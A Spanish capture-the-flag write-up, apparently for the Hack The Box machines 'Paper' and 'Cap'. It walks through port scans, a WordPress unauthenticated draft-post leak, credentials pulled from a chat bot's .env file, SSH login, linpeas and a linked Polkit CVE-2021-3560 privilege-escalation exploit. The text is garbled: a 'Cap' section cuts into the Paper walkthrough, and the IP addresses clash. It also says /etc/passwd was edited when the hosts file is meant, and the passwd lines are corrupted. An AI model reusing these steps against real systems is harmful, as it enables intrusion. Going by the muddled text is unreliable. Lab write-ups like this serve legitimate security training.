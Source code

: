 # Paper
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Paper.png" alt="Paper" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Information Leakage</li>
        <li>Abusing WordPress - Unauthenticated View Private/Draft Posts</li>
        <li>Abusing Rocket.Chat Bot</li>
        <li>Polkit (CVE-2021-3560) [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63
```


# Cap 

• Insecure Directory Object Reference (IDOR)
• Information Leakage
• Abusing Capabilities (Python3.8) [Privilege Escalation]

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Revisamos la pag web

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.11.143
http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
```

Encontramos en la cabecera X-backend[office.paper] por lo tanto editamos el fichero /etc/passwd para poder mostrar el contenido.

nos encontramos que nos lleva a un blog desarrollado en `Wordpress` con unos comentarios que son relevantes junto con un usuario `Prisonmike`el comentario es el siguiente 

```text
Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!
-Nick
```

Podemos acceder a post que no se encuentra en la página pero estan expuestos para ello me sirvo de la siguiente vulnerabilidad: 

```
http://wordpress.local/?static=1&order=asc
```
vemos que usando esta URL se puede acceder a una URL con filtración de otros post.

por lo tanto si lo adaptamos a nuestro caso obtengo un post donde comentan que hay un enlace de registro.
```text
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```
Podemos apreciar que hay un subdominio que se agrega al fichero hosts y vemos que es un panel de login.

En ella te puedes registrar y entrar a un chat donde se encunetra un `bot` que te proporciona datos interesantes entre ellos ofrece un usuario y una contrase de un fichero `.env`

```shell
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Tambien nos deja ver el contenido del fichero `/etc/passwd` en el que se destaca la existencia de dos usuarios relevantes
```
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

## Acceso ssh

Con estas credenciales intentamos acceder al servicio ssh y comprobar si podemos acceder.

```shell
ssh dwight@10.10.11.143
```
Vemos que podemos acceder con éxito, donde podemos ver la primera la flag `user.txt`

## Escalada de privilegios

Para la escalada he intnetado los comandos básicos sin embargo no he conseguido encontrar nada de manera manual por lo tanto voy a utilizar la herramienta `linpeas.sh`
```
https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

para pasarlo he creado un server con python 

```
python3 -m http.server 8000
```
y posteriormente me he conectado a ese recurso.


Después de hacerme el escaneo  vemos que `sudo` es vulnerable, y lo podemos explotar con el `CVE-2021-3560`que utiliza el comando sudo para crear un ususario y contraseña temporal con todos los permisos por lo tanto de esta manera podemos averiguar la flag de root.txt

el enlace del exploit es el siguiente:

```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh
```